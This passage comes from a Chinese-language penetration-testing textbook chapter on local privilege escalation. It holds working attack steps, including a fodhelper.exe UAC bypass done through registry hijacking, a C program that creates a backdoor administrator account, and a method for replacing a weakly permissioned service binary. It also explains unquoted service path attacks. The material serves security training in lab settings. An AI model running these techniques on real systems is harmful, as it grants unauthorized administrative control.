脚本成功执行，我们得到了有关系统安全组的信息。

类似 Windows 目标上的 *windows-privesc-check*，我们也可以在 Linux 等 UNIX 衍生系统中使用 *unix-privesc-check*⁴⁰²。我们可以通过不带任何参数运行脚本来查看该工具的提供帮助。

```
student@debian:~$ ./unix-privesc-check

unix-privesc-check v1.4 ( http://pentestmonkey.net/tools/unix-privesc-check )

Usage: unix-privesc-check { standard | detailed }

"standard" mode: Speed-optimised check of lots of security settings.

"detailed" mode: Same as standard mode, but also checks perms of open file handles and called files (e.g. parsed from shell scripts, linked .so files). This mode is slow and prone to false positives but might help you find more subtle flaws in 3rd party programs.

This script checks file permissions and other settings that could allow local users to escalate privileges.

...
```

*列表 552 - 运行 unix-privesc-check*

如上述列表所示，该脚本支持"standard"和"detailed"模式。根据提供的信息，standard 模式似乎执行了一个速度优化的过程，并应提供较少的误报。因此，在接下来的示例中，我们将使用 standard 模式，并将整个输出重定向到一个名为 *output.txt* 的文件。

```
student@debian:~$ ./unix-privesc-check standard > output.txt
```

⁴⁰² (Pentest Monkey, 2019), http://pentestmonkey.net/tools/audit/unix-privesc-check


# 使用 Kali Linux 2.0 进行渗透测试

### 列表 153 - 运行 unix_privesc_check

该脚本会对常见文件的权限执行多项检查。例如，以下摘录揭示了可被非 root 用户写入的配置文件：

```
"""

Checking for writable config files

####################################

Checking if anyone except root can change /etc/passwd

WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd

Checking if anyone except root can change /etc/group

Checking if anyone except root can change /etc/fstab

Checking if anyone except root can change /etc/profile

Checking if anyone except root can change /etc/sudoers

Checking if anyone except root can change /etc/shadow

"""
```


## 列表 154 - `unix_privesc_check` 可写配置文件

此输出显示系统上的任何人都可以编辑 `/etc/passwd` 文件！这非常严重，因为它允许攻击者轻松提升其权限<sup>493</sup>或在目标上创建用户账户。我们将在本模块的后文中演示这一过程。

尽管这些工具执行了许多自动检查，但请记住，每个系统都是不同的，且独特的、一次性的系统更改通常会被这类工具遗漏。因此，注意那些只能通过手动检查发现的独特配置非常重要。<sup>494</sup>

## 18.1.2.1 练习

- 使用本节中介绍的工具和命令检查你的 Windows 和 Linux 客户端，以熟悉手动本地枚举技术。
- 尝试不同的 `windows-privesc-check` 和 `unix_privesc_check` 选项。

## 18.2 Windows 权限提升示例

在本节中，我们将讨论 Windows 权限、完整性机制以及用户帐户控制（UAC）。我们将演示 UAC 绕过技术，并利用内核驱动漏洞、不安全的文件权限和未加引号的服务路径来提升目标上的权限。

### 18.2.1 理解 Windows 权限和完整性级别

Windows 操作系统中的权限<sup>495</sup>指的是特定账户执行系统相关本地操作的许可。这包括修改文件系统、添加用户、关闭系统等操作。

为了使这些权限生效，Windows 操作系统使用称为访问令牌的对象。<sup>496</sup> 一旦用户完成身份验证，Windows 就会生成一个分配给该用户的访问令牌。令牌本身包含各种信息，有效地描述了给定用户的安全上下文，包括用户权限。

最后，鉴于令牌中包含的信息，这些令牌必须是可唯一识别的。这是通过使用安全标识符或 `SID`<sup>497</sup>实现的，`SID` 是一个唯一值，分配给每个对象（包括令牌），例如用户或组账户。

这些 `SID` 由 Windows 本地安全机构生成和维护。<sup>498</sup>

除了权限之外，Windows 还实施了一种称为完整性机制的东西，<sup>499</sup> 这是 Windows 安全架构的核心组件，通过为应用程序进程和可保护对象<sup>501</sup> 分配完整性级别<sup>500</sup>来工作。简而言之，这描述了操作系统对运行中的应用或可保护对象的信任程度。例如，配置的完整性级别决定了应用程序可以执行的操作，包括从本地文件系统读取或写入的能力。API 也可以从特定的完整性级别中被阻止。

从 Windows Vista 开始，进程运行在四个完整性级别上：

- 系统完整性进程：`SYSTEM` 权限
- 高完整性进程：管理权限
- 中完整性进程：标准用户权限
- 低完整性进程：通常用于沙箱化<sup>502</sup>进程的高度受限权限

### 18.2.2 用户帐户控制 (UAC) 简介

用户帐户控制（UAC）<sup>503</sup>是微软在 Windows Vista 和 Windows Server 2008 中引入的一种访问控制系统。虽然 UAC 已经讨论和研究了相当长的时间，但重要的是要强调，微软并不认为它是一个安全边界。相反，UAC 强制应用程序和任务在非管理员帐户的上下文中运行，直到管理员授权提升的访问权限。它将阻止安装程序和未经授权的应用程序在没有管理员帐户权限的情况下运行，并阻止更改系统设置。一般来说，UAC 的效果是，任何希望执行可能具有系统级影响的操作的应用程序，都不能静默地执行。至少在理论上是如此。

同样重要的是强调，UAC 有两种不同的模式：凭据提示和同意提示。区别相当简单。当标准用户希望执行管理任务（例如安装新应用程序）且 UAC 已启用时，用户将看到凭据提示。换句话说，需要管理员用户的凭据才能完成任务。然而，当管理员用户尝试执行相同操作时，他或她会遇到同意提示。在这种情况下，用户只需确认应完成任务，无需重新输入用户凭据。

例如，在下图中，在标准用户帐户下运行的 Windows 命令处理程序试图执行特权操作。UAC 根据其通知设置<sup>504</sup>（在此情况下为“始终通知”）进行操作，暂停目标进程 `cmd.exe` 并要求输入管理员用户名和密码以执行请求的特权操作。


*图 275. 请求管理员密码的 UAC 对话框*

即使登录为管理员用户，该账户也将有两个安全令牌，一个以中完整性级别运行，另一个以高完整性级别运行。UAC 充当这两个完整性级别之间的分离机制。

要查看完整性级别的实际运行情况，让我们首先以 admin 用户身份登录，打开命令提示符，并运行 `whoami / groups` 命令：

```
c:\Users\admin> whoami / groups

GROUP INFORMATION

------------------

Group Name                        Type            SID             Attributes

================================= ============== =============================

Everyone                          Well-known group S-1-1-0        Mandatory group,

NT AUTHORITY\Local account and   Well-known group S-1-5-114      Group used for d
```


<sup>493</sup> (Raj Chandel, 2018), https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/
<sup>494</sup> (G0tm1rk, 2011), https://blog.g0tm1rk.com/2011/08/basic-linux-privilege-escalation/
<sup>495</sup> (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/windows/desktop/aa379306(v=vs.85).aspx
<sup>496</sup> (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/secreccauit/access-tokens
<sup>497</sup> (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/secauthz/security-identifiers
<sup>498</sup> (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/secauthz/lsa-authentication
<sup>499</sup> (Microsoft, 2007), https://msdn.microsoft.com/en-us/library/bb625957.aspx
<sup>500</sup> (Microsoft, 2007), https://msdn.microsoft.com/en-us/library/bb625963.aspx
<sup>501</sup> (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/secauthz/securable-objects
<sup>502</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/Sandbox_(software_development)
<sup>503</sup> (Microsoft, 2017), https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control-overview
<sup>504</sup> (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works

## 18.2.3 用户账户控制 (UAC) 绕过：fodhelper.exe 案例研究

UAC 可以通过多种方式被绕过。在这个示例中，我们将演示一种技术，该技术允许管理员用户通过静默地将完整性级别从中级提升到高级来绕过 UAC。

大多数公开的 UAC 绕过技术都针对特定的操作系统版本。在这种情况下，我们的目标是运行 Windows 10 1709 版本构建的实验室客户端。我们将利用基于 `fodhelper.exe` 的一个有趣 UAC 绕过方法，[507, 508] 这是一个负责管理操作系统语言更改的微软支持应用程序。具体来说，每当本地用户在 Windows 设置的“应用和功能”界面中选择“管理可选功能”选项时，就会启动此应用程序。


如我们将很快演示的那样，`fodhelper.exe` 二进制文件在 Windows 10 1709 上以高级完整性运行。我们可以利用这一点来绕过 UAC，因为 `fodhelper` 与 Windows 注册表交互的方式。更具体地说，它与那些无需管理员权限即可修改的注册表项进行交互。我们将尝试找到并修改这些注册表项，以便以高级完整性运行我们选择的命令。

> Windows 注册表是一个层次化数据库，存储着*关键信息*供操作系统及选择使用该数据库的应用程序使用。注册表以分层树结构存储设置、选项和其他杂项信息，该结构由配置单元、键、子键和值组成。

我们将通过运行 `C:\Windows\System32\fodhelper.exe` 二进制文件开始我们的分析，该文件显示了*管理可选功能*设置窗格：


为了收集关于 `fodhelper` 完整性级别和运行此进程所需权限的详细信息，我们将检查其*应用程序清单*。应用程序清单是一个 XML 文件，其中包含让操作系统在程序启动时知道如何处理该程序的信息。我们将使用 Sysinternals 中的 `sigcheck` 实用程序来检查清单，传递 `–a` 参数以获取扩展信息，并传递 `–m` 参数以转储清单。

```
C:\> cd C:\Tools\privilege_escalation\SysinternalsSuite

C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe –a –m C:\Windows\System32\fodhelper.exe

c:\windows\system32\fodhelper.exe:

    Verified:      Signed

    Signing date:  4:40 AM 9/29/2017

    Publisher:     Microsoft Windows

    Company:       Microsoft Corporation

    Description:   Features On Demand Helper

    Product:       Microsoft® Windows® Operating System

    Prod version:  10.0.16299.15
```


文件版本：10.0.16299.15 (WinBuild.160101.0800)

MachineType: 32-bit

Binary Version: 10.0.16299.15

Original Name: FodHelper.EXE

Internal Name: FodHelper

Copyright: © Microsoft Corporation. All rights reserved.

Comments: n/a

Entropy: 6.306

Manifest:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
    xmlns="urn:schemas-microsoft-com:asm.v1"
    xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
    manifestVersion="1.0">
    <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df"
        name="Microsoft.Windows.FodHelper" version="5.1.0.0"
        processorArchitecture="x86"/>
    <description>Features On Demand Helper UI</description>
    <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
        <security>
            <requestedPrivileges>
                <requestedExecutionLevel
                    level="requireAdministrator"
                />
            </requestedPrivileges>
        </security>
    </trustInfo>
    <asmv3:application>
        <asmv3:windowsSettings
```


```xml
            xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">

            <dpiAware>true</dpiAware>

            <autoElevate>true</autoElevate>

        </asmv3:windowsSettings>

    </asmv3:application>

</assembly>
```

快速查看结果可知，该应用程序旨在由管理员用户运行，因此需要完整的管理员访问令牌。此外，自动提升标志设置为 `true`，这允许可执行文件自动提升到高级完整性，而无需提示管理员用户同意。

我们可以使用 Sysinternals 套件中的 Process Monitor 来收集有关此工具在执行过程中的更多信息。

> **注意：** 以下来自第 534-535 页的内容似乎是关于完整性级别的前文，引出了 UAC 绕过部分。为了保持逻辑流程（按照要求“合并连续段落”），以下是整理后的前一部分：

如输出最后一行所报告，此命令提示符当前正以中级完整性运行。

让我们尝试从这个命令提示符更改 `admin` 用户的密码：

```text

C:\Users\admin> net user admin Evi@pass

System error 5 has occurred.

Access is denied.

```

请求被拒绝，即使我们以管理员用户身份登录。

为了更改 `admin` 用户的密码，即使是以管理员用户身份登录，我们也必须切换到高级完整性级别。在我们的示例中，实现这一点的一种方法是通过使用 `powershell.exe` 和 `Start-Process` cmdlet，并指定“以管理员身份运行”选项：

```text

C:\Users\admin> powershell -Use Start-Process cmd.exe -Verb runAs

```

提交此命令并接受 UAC 提示后，我们会看到一个新的高完整性 `cmd.exe` 进程。

让我们使用 `whoami` 实用程序及其 `/groups` 参数来检查我们的完整性级别，并再次尝试更改密码：

```text

C:\Windows\system32> whoami /groups

GROUP INFORMATION

-------------------

Group Name                           Type            SID          Attributes

--------------------------------  --------------  ------------  -------------

Everyone                                 Well-known group S-1-1-0        Mandatory group,

NT AUTHORITY\Local account and member   Well-known group S-1-5-114     Mandatory group,

BUILTIN\Administrators                   Alias          S-1-5-32-544   Mandatory group,

BUILTIN\Users                            Alias          S-1-5-32-545   Mandatory group,

NT AUTHORITY\INTERACTIVE                 Well-known group S-1-5-4      Mandatory group,

CONSOLE LOGON                            Well-known group S-1-2-1       Mandatory group,

NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11   Mandatory group,

NT AUTHORITY\This Organization              Well-known group S-1-5-15   Mandatory group,

NT AUTHORITY\Local account                    Well-known group S-1-5-113  Mandatory group,

LOCAL                                       Well-known group S-1-2-0     Mandatory group,

NT AUTHORITY\NTLM Authentication             Well-known group S-1-5-64-10 Mandatory group,

Mandatory Label\High Mandatory Level       Label                S-1-16-12288

```

```text

C:\Windows\system32> net user admin Ev!lpass

The command completed successfully.
```


这次，我们以高级完整性级别运行，密码更改成功。

### 参考文献

[505] (Microsoft, 2017). https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-6
[506] (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/whoami
[509] (Winscripting blog, 2017), https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/
[510] (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/sysinfo/structure-of-the-registry
[511] (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/sysinfo/structure-of-the-registry
[512] (Microsoft, 2019), https://msdn.microsoft.com/en-us/library/windows/desktop/aa374191(v=vs.85).aspx
[513] (Microsoft, 2019), https://docs.microsoft.com/en-us/sysinternals/
[514] (Microsoft, 2010). https://msdn.microsoft.com/en-us/library/bb756929.aspx
[515] (Microsoft, 2016). https://technet.microsoft.com/en-us/library/2009.07.uac.aspx
[516] (Microsoft, 2019). https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

进程监视器（Process Monitor）是一个无价之宝，当我们的目标是了解特定进程如何与文件系统和 Windows 注册表交互时。它是识别诸如注册表劫持、DLL 劫持[517]等缺陷的绝佳工具。

在启动 `procmon.exe` 后，我们将再次运行 `fodhelper.exe`，并设置过滤器，以便专门关注目标进程执行的活动。


图 278：按进程名称过滤 Procmon

此过滤器显著减少了输出，但针对此特定漏洞，我们只关心该应用如何与当前用户可以修改的注册表项进行交互。为了缩小结果范围，我们将调整过滤器，搜索 `Reg`，这是 Procmon 用来标记注册表操作的术语。


图 279：按操作类型过滤 Procmon

添加新过滤器后，我们应该只能看到注册表操作的结果。图 280 显示了由于我们的两个过滤器，Process Monitor 减少的输出。


这些结果更易于管理，但我们希望进一步缩小关注范围。具体来说，我们想要查看 `fodhelper` 应用程序是否正在尝试访问不存在的注册表项。如果情况属实，且这些注册表项的权限允许这样做，我们可能能够篡改这些条目，从而潜在地干扰目标高完整性进程试图执行的操作。

为了再次缩小搜索范围，我们将重新运行应用程序，并添加一个 `Result` 过滤器，设置为 `NAME NOT FOUND`，这是一个错误消息，表明应用程序正在尝试访问不存在的注册表项。


输出显示，`fodhelper.exe` 确实生成了 `NAME NOT FOUND` 错误，这是潜在可被利用注册表项的指示器。


然而，由于我们无法任意修改每个注册表分区的条目，我们需要关注我们能控制的注册表分区。在这种情况下，我们将关注 `HKEY_CURRENT_USER` (`HKCU`) 分区，当前用户对该分区具有读写访问权限：


图 283：按路径过滤 Procmon

应用此额外过滤器产生以下结果：


图 284：`fodhelper.exe` 查找 `command` 值

根据此输出，我们看到了一些相当有趣的事情。`fodhelper.exe` 应用程序尝试查询 `HKCU\Software\Classes\ms-settings\shell\open\command` 注册表项，该项似乎并不存在。

为了更好地理解为什么会出现这种情况以及该注册表项具体用于什么，我们将修改 `Path` 检查，专门查找任何对包含 `ms-settings\shell\open\command` 条目的访问。如果进程能成功在其他分区访问该键，结果将为我们提供更多线索。


图 285：Shell\open\command 执行路径

此输出包含一个有趣的结果。当 `fodhelper` 在 `HKCU` 中未找到 `ms-settings\shell\open\command` 注册表项时，它会立即尝试访问 `HKEY_CLASSES_ROOT` (`HKCR`) 分区中的同一项[518]。由于该条目确实存在，因此访问成功。

如果我们在注册表中搜索 `HKCR\ms-settings\shell\open\command`，我们会发现一个有效的条目：


图 286：DelegateExecute 注册表条目

基于此观察，并在 MSDN 文档[519]中搜索该注册表项格式 (`application-name\shell\open`) 后，我们可以推断 `fodhelper` 是通过 `ms-settings:` 应用协议打开 Windows 设置应用程序的一个部分（很可能是当启动 `fodhelper` 时向用户展示的“管理可选功能”[520]）。Windows 上的应用协议定义了当程序使用特定 URL 时启动的可执行文件。这些 URL-应用程序映射可以通过类似于我们在 `HKCR` 中发现的 `ms-setting` 键（如上 286 图所示）的注册表条目来定义。在此特定情况下，`ms-settings` 的应用协议架构将执行权传递给一个 `COM`[521] 对象，而不是一个程序。这可以通过按照 MSDN 文档所述，将 `DelegateExecute` 键值[522]设置为特定的 COM 类 ID 来实现。

这肯定很有趣，因为 `fodhelper` 首先尝试在 `HKCU` 分区中访问 `ms-setting` 注册表项。之前的 Process Monitor 结果清楚地表明该键在 `HKCU` 中不存在，但我们应该拥有创建它的必要权限。这可能允许我们通过格式正确的协议处理程序来劫持执行。让我们尝试使用 `REG`[523] 实用工具添加此键：

```
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command

The operation completed successfully.

C:\Users\admin>
```


一旦我们添加了注册表键，我们将清除 Process Monitor 中的所有结果（使用图 287 中高亮显示的图标），重启 `fodhelper.exe`，并监视进程活动：


请注意，清除输出显示不会清除我们创建的过滤器。它们已被保存，我们无需重新创建它们。


图 288：再次获取 Process Monitor 的输出

上图显示，这一次，`fodhelper.exe` 尝试查询存储在我们新创建的 `command` 键中的值 (`DelegateExecute`)。在我们创建伪造的应用协议键之前，这种情况并未发生。然而，由于我们不希望通过 COM 对象劫持执行，我们将添加一个 `DelegateExecute` 条目，并将其值留空。我们的希望是，当 `fodhelper` 发现此空值时，它将遵循应用协议的 MSDN 规范，并查找在 `Shell\Open\command\Default` 键条目中指定的要启动的程序。

我们将使用 `REG ADD`，并用 `/v` 参数指定值名称，用 `/t` 指定类型：

```text
C:\Users>admin> REG ADD HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ

The operation completed successfully.
```

列表 561 - 向 `command` 注册表键添加 `DelegateExecute` 值

为了验证 `fodhelper` 是否成功访问了我们刚刚添加的 `DelegateExecute` 条目，我们将移除 “NAME NOT FOUND” 过滤器，并将其替换为 “SUCCESS”，以仅显示成功的操作，并再次重启进程：


图 289：`fodhelper.exe` 检查 `command` 注册表键下的 `(Default)` 值

正如预期的那样，`fodhelper` 找到了我们新添加的 `DelegateExecute` 条目，但由于其值为空，它也查找 `Shell\Open\command` 注册表项的 `(Default)` 条目值。`(Default)` 条目值在添加任何注册表项时会自动创建为 null。我们将遵循应用协议规范，用我们选择的可执行文件 `cmd.exe` 替换空的 `(Default)` 值。这应该强制 `fodhelper` 使用我们自己的可执行文件处理 `ms-settings:` 协议！

为了测试这一理论，我们将设置新的注册表值。我们还将使用 `/d` `cmd.exe` 和 `/f` 来静默地添加该值，以指定新的注册表值。

```text
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

The operation completed successfully.
```

*列表 562 - 将 `(Default)` 值设置为 `cmd.exe`*

在设置值并再次运行 `fodhelper.exe` 后，我们被呈现了一个命令 shell：


`whoami` `/groups` 命令的输出表明这是一个高完整性命令 shell。接下来，我们将尝试更改管理员密码，以查看我们是否成功绕过了 UAC：

```text
C:\Windows\system32> net user admin Ev!lpass

The command completed successfully.
```

*列表 563 - 成功通过 `fodhelper.exe` 以高完整性生成 `cmd.exe` 后，更改 `admin` 用户的密码*

密码更改成功，我们成功绕过了 UAC！

此攻击不仅展示了一个极好的 UAC 绕过方法，还揭示了我们可用于发现类似绕过方法的流程。

> [518] Microsoft, 2018, https://docs.microsoft.com/en-us/windows/win32/synfo/hkey-classes-root-key
> [519] Microsoft, 2018, https://docs.microsoft.com/en-us/windows/win32/shell/launch
> [520] Eric Law, 2011, https://blogs.msdn.microsoft.com/interalends/2011/07/13/understanding-protocols/
> [521] 请参阅之前的脚注或上下文以获取 COM 引用
> [522] 请参阅之前的脚注或上下文以获取键值引用
> [523] 请参阅之前的脚注或上下文以获取 REG 实用工具引用

# 18.2.3.2 练习

- 以 `admin` 用户身份登录你的 Windows 客户端，并尝试使用上述提到的应用程序和技术来绕过 UAC。

#### 18.2.4 不安全的文件权限：Serviio 案例研究

如前所述，在 Windows 系统上提权的一种常见方式是利用以 `nt authority\system` 身份运行的服务中存在的不安全文件权限。

例如，考虑这样一个场景：软件开发人员创建了一个作为 Windows 服务运行的程序。在安装过程中，开发人员没有保护该程序的权限，允许 `Everyone`[^24] 组的所有成员拥有完全读写访问权限。结果，低权限用户可以该程序替换为恶意程序。当服务重新启动或机器重启时，恶意文件将以 SYSTEM 权限执行。

我们的 Windows 客户端上存在此类漏洞。让我们验证并利用该漏洞。

在之前的章节中，我们展示了如何使用 `tasklist` 列出正在运行的服务。或者，我们可以使用 PowerShell 的 `Get-WmiObject` cmdlet 和 `win32_service` WMI 类。在本例中，我们将把输出管道传输到 `Select-Object` 以显示我们感兴趣的字段，并使用 `Where-Object` 来显示正在运行的服务（`$_.State -like 'Running'`）。

```powershell
PS C:\Users\student> Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like ‘Running’}
```


| 名称 | 状态 | 路径名 |
| :------- | :------- | :------- |
| AudioEndpointBuilder | Running | `C:\Windows\System32\svchost.exe -k LocalSystemNetworkRes` |
| AudioSrv | Running | `C:\Windows\System32\svchost.exe -k LocalServiceNetworkRe` |
| ... | | |
| Power | Running | `C:\Windows\system32\svchost.exe -k DcomLaunch` |
| ProfSvc | Running | `C:\Windows\system32\svchost.exe -k netsvcs` |
| RpcEptMapper | Running | `C:\Windows\system32\svchost.exe -k RPCSS` |
| RpcSs | Running | `C:\Windows\system32\svchost.exe -k rpcss` |
| SamSs | Running | `C:\Windows\system32\lsass.exe` |
| Schedule | Running | `C:\Windows\system32\svchost.exe -k netsvcs` |
| SENS | Running | `C:\Windows\system32\svchost.exe -k netsvcs` |
| Serviio | Running | `C:\Program Files\Serviio\bin\ServiioService.exe` |
| ShellHardwareDetection | Running | `C:\Windows\System32\svchost.exe -k netsvcs` |
| ... | | |

*列表 564 – 使用 PowerShell 在 Windows 上列出正在运行的服务*

基于此输出，Serviio 服务显得格外突出，因为它安装在 `Program Files` 目录中。这意味着该服务是由用户安装的，并且软件开发人员还负责该软件的目录结构以及权限。这些情况使其更容易受到此类漏洞的攻击。


作为下一步，我们将使用 `icacls`[^525] Windows 工具来枚举目标服务的权限。该工具将输出服务的安全标识符（或 SID[^526]），后跟权限掩码，这些定义在 `icacls` 文档中。[^527] 最相关的掩码和权限如下所示：

| 掩码 | 权限 |
| :--- | :--- |
| F | 完全访问 |
| M | 修改访问 |
| RX | 读取和执行访问 |
| R | 只读访问 |
| W | 只写访问 |

*表 7 - icacls 权限掩码*

我们可以运行 `icacls`，将完整的完整服务名称作为参数传递。命令输出将列出相关的权限：

```powershell
C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

C:\Program Files\Serviio\bin\ServiioService.exe           BUILTIN\Users:(I)(F)

                                                        NT AUTHORITY\SYSTEM:(I) (F)

                                                        BUILTIN\Administrators:(I) (F)

                                                        APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I) (RX)

成功处理 1 个文件；处理失败 0 个文件
```

*列表 565 - ServiioService.exe 服务的 icacls 输出*

正如所料，与 `ServiioService.exe` 可执行文件关联的权限非常有趣。具体来说，似乎系统中的任何用户（`BUILTIN\Users`）都拥有对其的完全读写访问权限。这是一个严重的漏洞。[^528]

为了利用这种类型的漏洞，我们可以用我们自己恶意的二进制文件替换 `ServiioService.exe`，然后通过重启服务或重启机器来触发它。

我们将通过一个示例来演示此攻击。以下 C 代码将创建一个名为“evil”的用户，并使用 `system`[^529] 函数将该用户添加到本地 Administrators 组。此代码的编译版本将作为我们的恶意二进制文件。

```c
#include <stdlib.h>

int main ()

{

    int i;

    i = system ("net user evil Evilpass /add");

    i = system ("net localgroup administrators evil /add");

    return 0;

}
```

*列表 566 - adduser.c 代码*

接下来，我们将在我们的 Kali 机器上使用 `i686-w64-mingw32-gcc` 对该代码进行交叉编译[^530]，并使用 `-o` 指定编译后的可执行文件的名称：

```bash
kali@kali:~$ i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

*列表 567 - 编译 adduser.c 代码*

我们可以将其传输到目标机器，并用我们的恶意副本替换原始的 `ServiioService.exe` 二进制文件：

```powershell
C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

已移动 1 个文件。

C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

已移动 1 个文件。

C:\Users\student> dir "C:\Program Files\Serviio\bin\"

 驱动器 C 中的卷没有标签。

 卷序列号为 5689-BB74

 C:\Program Files\Serviio\bin 的目录

2018/01/26  上午 07:21     <DIR>          .

2018/01/26  上午 07:21     <DIR>          ..

2016/12/04  下午 08:30            867 servio.bat

2018/01/26  上午 07:19         48,373 ServiioService.exe

2016/12/04  下午 08:30              10 ServiioService.exe.vmoptions

2016/12/04  下午 08:30        413,696 ServiioService_original.exe

               4 个文件         462,946 字节

               2 个目录  3,826,667,520 可用字节
```

*列表 568 - 用我们的恶意文件替换 ServiioService.exe 二进制文件*

为了执行该二进制文件，我们可以尝试重启服务。

```powershell
C:\Users\student> net stop Serviio

已发生系统错误 5。

拒绝访问。
```

*列表 569 - 尝试重启服务并重启机器*

不幸的是，似乎我们没有足够的权限来停止 Serviio 服务。这是意料之中的，因为大多数服务是由管理员用户管理的。

由于我们没有权限手动重启服务，我们必须考虑另一种方法。如果该服务的启动类型设置为“自动”，我们可能能够通过重启机器来重启该服务。让我们借助 Windows Management Instrumentation Command-line[^531] 检查 Serviio 服务的启动选项。

```powershell
C:\Users\student>wmic service where caption="Serviio" get name, caption, state, startmode

Caption Name StartMode State

Serviio Serviio Auto Running
```


*列表 570 - 显示易受攻击服务的 StartMode*

该服务将在重启后自动启动。现在，让我们使用 `whoami` 命令来确定当前用户是否有权重启系统：

```powershell
C:\Users\student>whoami /priv

特权信息

----------------------

特权名称 描述 状态

==== ===== ====== =======

SeShutdownPrivilege 关闭系统 已禁用

SeChangeNotifyPrivilege 绕过遍历检查 已启用

SeUnlockPrivilege 将计算机从对接站移除 已禁用

SeIncreaseWorkingSetPrivilege 增加进程工作集 已禁用

SetTimeZonePrivilege 更改时区 已禁用
```

*列表 571 - 检查重启权限*

上述列表显示，我们的用户被授予关闭特权（`SeShutdownPrivilege`）[^532]（以及其他特权），因此我们应该能够发起系统关闭或重启。请注意，*Disabled*（已禁用）状态仅表示该特权当前是否对正在运行的进程处于启用状态。在我们的情况下，这意味着 `whoami` 没有请求，因此当前未使用 `SeShutdownPrivilege` 特权。

如果不存在 `SeShutdownPrivilege`，我们就必须等待受害者手动启动服务，这对我们要方便得多。

让我们继续重启（*r* 表示重启，*t 0* 表示 0 秒后执行）：

```powershell
C:\Users\student\Desktop> shutdown /r /t 0
```

*列表 572 - 重启机器*

现在重启已完成，我们应该能够使用用户名“evil”和密码“Evilpass”登录到目标机器。之后，我们可以使用 `net localgroup` 命令确认 evil 用户是本地 Administrators 组的一部分。

```powershell
C:\Users\evil> net localgroup Administrators

别名名称 Administrators

注释 管理员对计算机/域拥有完全且不受限制的访问权限

成员
```

[^24]: （注：来自原文的引用编号，可能指未完全显示或标准组定义的脚注）
[^525]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
[^526]: (Microsoft, 2017), https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems
[^527]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks
[^528]: (Gjoko Krstic, 2017), https://www.exploit-db.com/exploits/41959/
[^529]: (Microsoft, 2016), https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem?view=vs-2019
[^530]: (Wikipedia, 2019). https://en.wikipedia.org/wiki/Cross_compiler
[^531]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/mswsc/wmic
[^532]: (Microsoft, 2019), https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

## 18.2.4.1 练习
- 以非特权用户身份登录 Windows 客户端，并尝试利用上述漏洞和技巧将权限提升至 SYSTEM。
- 尝试获取远程系统 shell，而不是添加恶意用户。

#### 18.2.5 利用未引用的服务路径
在 Windows 操作系统中，另一个可能导致权限提升的有趣攻击向量围绕未引用的服务路径展开。当我们对服务的主目录及其子目录拥有写入权限，但无法替换其中文件时，可以使用此攻击。请注意，本模块的这一部分无法在您的专用客户端上复现。但是，您可以在实验室环境内的各种主机上使用此技巧。

如前一节所述，每个 Windows 服务都映射到一个可执行文件，该文件将在服务启动时运行。大多数情况下，伴随第三方软件的服务存储在 `C:\Program Files` 目录下，该目录的名称中包含空格字符。这可能会转化为权限提升攻击的机会。

当使用包含空格的文件或目录路径时，开发者应始终确保路径被引号包围。这确保了路径被显式声明。然而，当这种情况不存在且路径名称未被引号包围时，它就被解释为开放式解释。具体而言，对于可执行文件路径，每个空格字符之后的内容将被视为可执行文件的潜在参数或选项。

例如，想象我们有一个服务存储在诸如 `C:\Program Files\My Program\My Service\service.exe` 的路径中。如果服务路径未加引号，每当 Windows 启动该服务时，它将尝试从以下路径运行可执行文件：

```
C:\Program.exe

C:\Program Files\My.exe

C:\Program Files\My Program\My.exe

C:\Program Files\My Program\My Service\service.exe
```
*列表 574 · Windows 如何尝试定位未引用服务的正确路径的示例*

在这个例子中，Windows 将搜索每个“被解释的位置”，试图找到有效的可执行文件路径。为了利用这一点并颠覆原始的未引用服务调用，我们必须创建一个恶意可执行文件，将其放置在对应于其中一个被解释路径的目录中，并以匹配被解释文件名的方式命名它。然后，当服务运行时，它应该以服务启动时相同的权限执行我们的文件。通常，这恰好是 NT\SYSTEM 账户，从而导致成功的权限提升攻击。

